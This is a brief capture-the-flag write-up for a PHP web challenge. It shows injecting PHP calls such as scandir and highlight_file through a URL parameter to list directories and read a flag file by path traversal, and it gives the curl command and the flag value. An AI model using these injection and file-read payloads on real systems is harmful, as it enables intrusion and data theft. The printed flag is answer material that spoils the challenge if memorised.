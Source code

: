 **Challenge:** http://pwnable.org:19260/?rh=

Listing files: `var_dump(scandir("<Directory>"));`

Getting the flag: `highlight_file("../../../flag.so");`

Run: `curl 'http://pwnable.org:19260/?rh=highlight_file("/flag.so");' | strings | grep flag{`

**Flag**: flag{FFi_1s_qu1T3_DANg1ouS}
